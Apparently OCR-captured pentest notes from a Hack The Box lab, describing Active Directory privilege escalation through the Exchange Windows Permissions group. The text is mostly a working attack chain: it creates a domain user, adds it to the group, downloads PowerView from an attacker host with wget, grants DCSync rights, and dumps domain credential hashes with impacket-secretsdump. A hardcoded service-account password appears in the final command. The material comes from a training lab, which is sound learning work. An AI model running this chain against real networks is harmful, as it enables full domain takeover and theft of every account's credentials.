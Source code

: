 ### PsLoggedon

\# To see user logons at remote system of a domain(external tool)

.\\PsLoggedon.exe \\\\\<computername\>

## **Join Exchange Windows Permissions Group (Generic ALL)**

Because my user is in Service Account, which is a member of Privileged
IT Account, which is a member of Account Operators, it's basically like
my user is a member of Account Operators. And Account Operators has
**Generic All** privilege on the Exchange Windows Permissions group. If
I right click on the edge in Bloodhound, and select help, there's an
"Abuse Info" tab in the pop up that displays:

Step exploit :

Change grup permission from current login with Exchange Windows
Permissions with below command :

-   net user rana password /add /domain

-   net group \"Exchange Windows Permissions\" /add rana

-   wget http://10.10.14.70:5555/PowerView.ps1 -o PowerView.ps1

```{=html}
<!-- -->
```
-   Import-Module .\\PowerView.ps1

```{=html}
<!-- -->
```
-   \$SecPassword = ConvertTo-SecureString \'password\' -AsPlainText
    > -Force

```{=html}
<!-- -->
```
-   \$Cred = New-Object
    > System.Management.Automation.PSCredential(\'HTB.local\\rana',
    > \$SecPassword)

```{=html}
<!-- -->
```
-   Add-DomainObjectAcl -Credential \$Cred -TargetIdentity
    > \"DC=htb,DC=local\" -PrincipalIdentity rana -Rights DCSync

-   impacket-secretsdump htb.local/rana:\'password\'@10.10.10.161

-   

-   

```{=html}
<!-- -->
```
-   Add-DomainGroupMember -Identity \'Exchange Windows Permissions\'
    > -Members svc-alfresco; \$username = \"htb\\svc-alfresco\";
    > \$password = \"s3rvice\"; \$secstr = New-Object -TypeName
    > System.Security.SecureString; \$password.ToCharArray() \|
    > ForEach-Object {\$secstr.AppendChar(\$\_)}; \$cred = new-object
    > -typename System.Management.Automation.PSCredential -argumentlist
    > \$username, \$secstr; Add-DomainObjectAcl -Credential \$Cred
    > -PrincipalIdentity \'svc-alfresco\' -TargetIdentity
    > \'HTB.LOCAL\\Domain Admins\' -Rights DCSync
